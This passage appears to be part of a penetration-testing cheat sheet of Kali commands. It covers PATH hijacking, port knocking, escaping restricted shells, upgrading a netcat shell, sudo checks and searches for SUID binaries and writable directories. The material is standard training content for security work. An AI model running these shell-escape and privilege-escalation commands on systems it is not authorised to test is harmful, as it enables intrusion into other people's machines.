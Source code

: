 > ###### Use Env to force scripts to run a different command

```
Kali> ln -s /usr/bin/nano cat
Kali> export PATH=.:$PATH
```

##### Port Knocking

```
Kali> for x in port1 port2 port3;do nmap -Pn --host_timeout 201 --max-retries -p $x $TARGET;done
Kali> nc -z $TARGET port1 port2 port3;
```

##### Breakout Shell

> ###### Resources

[Escape from Shellcatraz: Breaking out of restricted UNIX shells](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)

```
Kali> awk ‘BEGIN {system(“/bin/bash”)}’
Kali> python -c ‘import pty; pty.spawn(“/bin/bash”)’
Kali> echo os.system(‘/bin/bash’);
Kali> /bin/sh -i
```

##### Upgrade Shell

> ###### Netcat

```
# Background current shell: CTRL + Z

Kali> stty raw -echo
Kali> fg
```

> ###### Resources

[Upgrading Simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

##### Insecure Sudo

```
Kali> sudo -l
```

##### Finding gems on the file system

```
# Find commands for SUID or SGID
Kali> find / -perm -g=s -type f 2>/dev/null
Kali> find / -perm -u=s -type f 2>/dev/null

# Find commands for writable/executable directories
Kali> find / -writable -type d 2>/dev/null
Kali> find / -perm -o w -type d 2>/dev/null
Kali> find / -perm -o x -type d 2>/dev/null

# Sometimes a quick bit of information can be helpful
# Especially if you get access denied when you try to run a command
# Such as iptables -L
Kali> locate iptables

# Locate useful files like gcc, wget, etc
Kali> locate gcc

# Take advantage of wildcard searching
```